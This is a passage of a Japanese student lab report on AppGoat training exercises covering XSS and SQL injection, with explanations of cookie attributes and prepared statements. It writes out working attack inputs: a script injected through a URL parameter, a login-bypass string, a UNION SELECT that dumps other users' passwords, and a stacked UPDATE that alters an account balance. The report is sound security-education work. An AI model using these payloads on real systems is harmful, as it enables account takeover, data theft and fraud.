    
\includegraphics[keepaspectratio,scale=0.35]{pic10.png}
    \end{center}
    \caption{}
  \end{minipage}
\end{figure}

これは、Level1演習の時と同じように、入力された文字列に対してエスケープ処理
が施されていなかったため、入力されたスクリプトがそのまま実行されたと考えられる。

\subsection{Level3演習}

\subsubsection*{不完全な対策}
この演習では、掲示板の本文入力欄に脆弱性が確認できた。しかし、本文に直接
スクリプトを入れることは入力チェックで弾かれるため、まずは普通に投稿を
行い、その後生成されるurlに対してスクリプトを埋め込み、サイトを更新
すると入力チェックを回避して投稿が可能であった。実際に作成したurlは「\url{http://appgoat.cysec-lab.org/Users/is0585xf/Web/Scenario1131/VulSoft/bbs.php?name=1&title=1&url=&content=<script>document.getElementById("warning").innerHTML="管理者の発言:このページでは誹謗中傷を歓迎します。";</script>}」
である。これは、url内の「content=」の部分が本文入力欄と対応しており、そこに
直接スクリプトを埋め込んでいる。実際に入力チェックを回避してスクリプトを
埋め込んだ画面を以下の図11に示す。

\begin{figure}[h]
  \centering
  
\includegraphics[scale=0.5]{pic11.png}
  \caption{}
\end{figure}

これは、Level1演習の時と同じように、入力された文字列に対してエスケープ処理
が施されていなかったため、入力されたスクリプトがそのまま実行されたと考えられる。

\subsubsection*{ヘッダ要素へのスクリプト}

Mac環境のためできませんでした。

\subsection{問1}

\subsubsection*{(a)Cookieが漏洩しない仕組みはどのようなものか}
webサーバからユーザ方向へのCookieをSet-Cookieと呼び、ユーザの初回アクセス
時には、このSet-Cookieにより、セッションIDが送信されてくる。次回以降の
アクセス時、ユーザはこのセッションIDをサーバにCookieとして送信することで、
サーバは同一人物だと特定する。また、このSet-Cookieには様々な属性を付与
することが可能であり、内容としてはCookieの有効期限などを設定するものが
多いが、漏洩に着目してSecure属性と、HttpOnly属性について説明する。
Secure属性に関してはhttps通信をしている時にのみCookieを送信するため、
万が一傍受されていたとしても暗号化されているので情報の漏洩は防ぐことができる。
HttpOnly属性はJavaScriptからCookieへのアクセスを制限するというもので
あるので、クロスサイト・スクリプティングを緩和するのに大きく役立つと考え
られる。

\subsubsection*{(b)クロスサイトスクリプティングではなぜCookieが漏洩してしまうのか。}
CookieのHttpOnly属性が設定されていないと、JavaScriptからCookieへのアクセス
が可能であるので、攻撃者は訪問したユーザのCookieを自身のサーバへ送信する
スクリプトを脆弱性のあるアプリケーションに埋め込むことで、Cookie
を盗むことができる。

\subsubsection*{(c)Cookieの漏洩によって起きうる被害はなにか。}
CookieにはセッションIDが格納されているので、Cookieが漏洩した場合、
攻撃者は容易に他者になりすまし、個人のアカウント等を乗っ取ることが
可能である。また、ログインIDやパスワードなどが保存されていることもあるので、
パスワードの流出などにもつながる。

\subsubsection*{(d)クロスサイト・スクリプティングでCookieが漏洩しないようにするためには}
確実に漏洩を防ぐ方法として挙げられるのは、ユーザ側でCookieの使用を制限
することである。ユーザがCookieの使用を許可しなければ、様々な情報は保存
されないので、もし脆弱性のあるサイトにアクセスしたとしても、Cookieを盗まれる
心配はなくなる。しかし、Cookieを制限することは利便性を犠牲にすることであるので、
最も良い対策として考えられるのは、サーバ側のSet-CookieにおいてHttpOnly属性
やSecure属性をしっかりと持たせることが重要であると考えられる。


\section{SQLインジェクション}

\subsection{SQLインジェクションとは}
SQLインジェクションとは、悪意のあるリクエストにより、ウェブアプリケーション
が意図しないSQL文を実行してしまうことで、データベースを不正に操作されてしま
う脆弱性である。この脆弱性が悪用されてしまうとデータベース内の情報が改ざんさ
れたり、個人情報や機密情報が漏えいしたりする可能性がある。

\subsection{Level1演習}

\subsubsection*{脆弱性の概要および発見演習}
この演習では、とあるログイン画面のパスワードに「'」を入力するとデータベース
エラーが発生することから、SQLインジェクションを引き起こす可能性がある。
これが起きる原因として考えられるのは、バックエンドの処理においてプレースホルダー
が使用されておらず、入力された文字列からSQL文が作成されるため、不正な文字列が
パスワードではなく、SQL文として認識されるために起こると考えられる。
一連の動作を図12,13に示す。\\

\begin{figure}[h]
  \centering
  \begin{minipage}[b]{0.45\linewidth}
  \begin{center}
    
\includegraphics[keepaspectratio,scale=0.35]{pic12.png}
    \end{center}
    \caption{}
  \end{minipage}
  \begin{minipage}[b]{0.45\linewidth}
  \begin{center}
    
\includegraphics[keepaspectratio,scale=0.35]{pic13.png}
    \end{center}
    \caption{}
  \end{minipage}
\end{figure}

\subsection{Level2演習}

\subsubsection*{不正なログイン(文字列リテラル)}
この演習では、パスワード入力画面に「'」を入力したところデータベースエラー
が発生したのでSQLインジェクションの脆弱性があることが確認できた。そこで、
「ID=yamada」の時にどのようなSQL文が作られるかを考えると、
「SELECT * FROM user WHERE id = 'yamada' AND password =」
となるので、このpasswordに対してtrueを返すような文字列「' OR '1'='1' --」
をパスワードに入力することで、ログインすることができた。以下の図14,15に示す。

\begin{figure}[h]
  \centering
  \begin{minipage}[b]{0.45\linewidth}
  \begin{center}
    
\includegraphics[keepaspectratio,scale=0.35]{pic14.png}
    \end{center}
    \caption{}
  \end{minipage}
  \begin{minipage}[b]{0.45\linewidth}
  \begin{center}
    
\includegraphics[keepaspectratio,scale=0.35]{pic15.png}
    \end{center}
    \caption{}
  \end{minipage}
\end{figure}

このようなことが起きる原因として、プリペアードステートメントを用いた、
値渡しによるSQL文の組み立てを行なっていないため、入力された不正な文章が
SQL文として認識されていることが挙げられる。

\subsubsection*{情報漏洩(数値リテラル)}
この演習において、口座残高確認後のurlを見ると「\url{http://appgoat.cysec-lab.org/Users/is0585xf/Web/Scenario1222/VulSoft/bank.php?page=3&account_id=1000005}」
となっており、最後の部分を「id='」に書き換えるとデータベースエラーが発生したので、この部分に
SQLインジェクションの脆弱性を持っていると考えられる。ここで、自分以外の口座番号
を出力するように「account\_id = 99 OR 0 = 0」と書き換え、すべての口座残高を
出力させた。その結果を以下の図16,17に示す。

\begin{figure}[h]
  \centering
  \begin{minipage}[b]{0.45\linewidth}
  \begin{center}
    
\includegraphics[keepaspectratio,scale=0.35]{pic16.png}
    \end{center}
    \caption{}
  \end{minipage}
  \begin{minipage}[b]{0.45\linewidth}
  \begin{center}
    
\includegraphics[keepaspectratio,scale=0.35]{pic17.png}
    \end{center}
    \caption{}
  \end{minipage}
\end{figure}

このようなことが起きる原因として、プリペアードステートメントを用いた、
値渡しによるSQL文の組み立てを行なっていないため、入力された不正な文章が
そのままSQL文として認識されてしまっていることが挙げられる。


\subsubsection*{他テーブル情報の漏洩(数値リテラル)}
この演習において、入出金履歴確認後のurlを見ると「\url{http://appgoat.cysec-lab.org/Users/is0585xf/Web/Scenario1223/VulSoft/bank.php?page=4&account_id=1000005}」
となっており、最後の部分を「account\_id = '」と書き換えるとデータベースエラーが発生した
ので、この部分にSQLインジェクションの脆弱性を持っていると考えられる。前提条件より、
usersのテーブルにはアカウント情報が格納されているので、その情報を持ってくるように
account\_idを次のように書き換えた。
「account\_id = 99 UNION SELECT NULL,id,password,0,0,0 FROM user」
この結果、他のユーザのログインIDとパスワードが出力された。その様子を以下の図18,19に
示す。

\begin{figure}[h]
  \centering
  \begin{minipage}[b]{0.45\linewidth}
  \begin{center}
    
\includegraphics[keepaspectratio,scale=0.35]{pic18.png}
    \end{center}
    \caption{}
  \end{minipage}
  \begin{minipage}[b]{0.45\linewidth}
  \begin{center}
    
\includegraphics[keepaspectratio,scale=0.35]{pic19.png}
    \end{center}
    \caption{}
  \end{minipage}
\end{figure}

このようなことが起きる原因として、プリペアードステートメントを用いた、
値渡しによるSQL文の組み立てを行なっていないため、入力された不正な文章が
そのままSQL文として認識されてしまっていることが挙げられる。

\subsubsection*{データベースの改ざん(数値リテラル)}
この演習において、振込処理後のurlを見ると「\url{http://appgoat.cysec-lab.org/Users/is0585xf/Web/Scenario1224/VulSoft/bank.php?page=7&from_account_id=1000005&to_account_id=2000002&amount=5000000}」
となっており、最後の部分を「to\_account\_id = '」に書き換えるとデータベースエラーが発生したので
、この部分にSQLインジェクションの脆弱性を持っていると考えられる。
自身の口座情報を書き換えるためにto\_account\_idを次のように書き換えた。
「to\_account\_id=2000002;UPDATE account SET balance= 10000000 WHERE account\_id = 1000005\&amount=1000」
この結果、自身の口座情報が更新され残高が一千万となった。その様子を以下の図20,21に
示す。

\begin{figure}[h]
  \centering
  \begin{minipage}[b]{0.45\linewidth}
  \begin{center}
